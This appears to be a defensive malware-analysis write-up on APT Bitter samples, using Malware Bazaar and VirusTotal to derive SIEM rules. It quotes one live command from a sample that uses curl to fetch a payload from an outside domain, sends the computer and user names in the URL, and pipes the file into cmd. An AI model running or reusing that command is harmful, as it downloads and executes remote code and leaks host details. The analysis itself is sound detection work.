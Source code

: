 # Efficient and Effective Way of Analyzing TTPs of Malware

## Introduction

In today's evolving cybersecurity landscape, analyzing malware and understanding its **Tactics, Techniques, and Procedures (TTPs)** is crucial to building effective defenses. This demonstration uses **Malware Bazaar** and **VirusTotal** to efficiently analyze malware samples, identify malicious behaviors, and extract key signatures.

**Malware Bazaar** is a vast repository of malware samples, contributed by the security community, researchers, and organizations. This analysis will use samples of **RAT** and **Stealer Malware** to uncover the methods and patterns they commonly employ, such as task scheduling, dropping executables in startup folders, and leveraging **PowerShell scripts** for executing commands or deploying shell scripts.

The analysis of these samples will take place on **VirusTotal**. On this well-established platform, files and URLs are scanned using various antivirus engines and behavioral analysis tools. VirusTotal will be useful in analyzing the malware samples obtained from Malware Bazaar, helping to highlight the techniques they employ and aiding in identifying key signatures that can be used to detect and mitigate threats by creating rules that will be integrated into **SIEM solutions**. By combining these tools, this demonstration aims to showcase a practical approach to efficiently recognizing critical malware behaviors for improved detection and response capabilities.

## Goals and Objectives

The main goal of this demonstration and documentation is to showcase an efficient method of analyzing **TTPs** of various malware samples attained from Malware Bazaar using VirusTotal. Additionally, this analysis aims to help my team improve the detection capabilities of the **SIEM solution** by identifying important signatures that can be used to create rules.

Initially, the **TTPs** of some malware samples used by **APT Bitter** (as shown in Figure 1) will be utilized to identify important patterns. I began with the analysis of **SHA256** `1cafe3979fbd529129440e058b8ed8e0d4e283325dee448816d3aa354f7c412a`, which is attributed as **Trojan-Downloader** because it downloads other stage malware such as **RAT** and **Info-Stealer Malware**.

Also, it can be seen in Figure 3 that the malware is using the following command  “ ['--headless
cmd /c "curl -o C:\\users\\public\\Music\\cdr.tr
colorsofnether.com/bgte.php?hy=%computername%BBB%username% & more
C:\\users\\public\\Music\\cdr.tr|cmd"']” to connect and download another malwar.Such patterns are used by malicious actors to secretly download and execute **RAT** and **info-stealer** malware, as these malwares can be easily detected if used directly.

Hence, a rule can be created to generate an alert upon any process that involves:
Command Prompt && Curl Statement && .php? string
Similarly, `C:\\users\\public\\Music\\` is the directory where the malware is dropped. Therefore, a rule can be created to generate an alert if files with extensions `.exe`, `.zip`, `.py`, `.ps1`, `.psm1`, `.lnk`, and `.vbs` are dropped or used in the `C:\\users\\public\\Music\\` directory.

![](img\ef-1.jpg)
![](img\ef-2.jpg)

![](img\ef-3.jpg)

## Analysis of Next Malware

The next malware that was analyzed is a **RAT** malware with info-stealing capabilities having the **SHA256** hash:
dcdae583da8a1b01a8ad0caef6a7f6f3b6f1eb6dd3298ac7d904200f52712446
This malware was downloaded using the 1st stage malware as described previously. Some of the URLs that were used by the malware are shown in Figure 4, and the highlighted domain should be blocked in the **Firewall**.
![](img\ef-4.jpg)

![](img\ef-5.png)

## Important Signature Identification

One important signature identified in this analysis is the usage of the **Command Prompt** for the execution of the malware, as shown in Figure 6. Thus, a rule can be created that should alert if the command prompt executes any executable file. 

While there may be some false alerts over time, the detection can be improved by optimizing the rules for better accuracy. This can include adding detections for any modifications in directories that malware typically alters to drop or delete files, along with changes in the **Registry**.

![](img\ef-6.jpg)

## Additional APT Bitter Malware Analysis

Some other **APT Bitter** malwares analyzed in this activity revealed more useful patterns, as shown in Figures 7 and 8. These patterns include:

- Scheduling tasks
- Using `hh.exe` to open `.chm` files
- Utilizing `msiexec` to execute `.msi` files

Therefore, similar rules can be created and integrated into the **SIEM** while testing them, to identify such malwares that are otherwise not easily detected by Anti-Malware Software.
![](img\ef-7.jpg)
![](img\ef-8.jpg)

## Conclusion   

This demonstration provides a practical way of using **VirusTotal** and **Malware Bazaar** to efficiently analyze various malware samples to identify important signatures as outlined in this document. This method can be applied to more malware; however, we utilized only a few **APT Bitter** malware samples to showcase the method. The document clearly demonstrates the usability of VirusTotal in analyzing **TTPs** of different malware. 

Overall, the blue team can use this method to analyze TTPs of many malwares in less time, allowing for the creation of various rules and optimizations for detection in **SIEM Solutions**.

## References

- [Malware Bazaar - APT Bitter Signatures](https://bazaar.abuse.ch/browse/signature/Bitter/)
- [VirusTotal](https://www.virustotal.com)
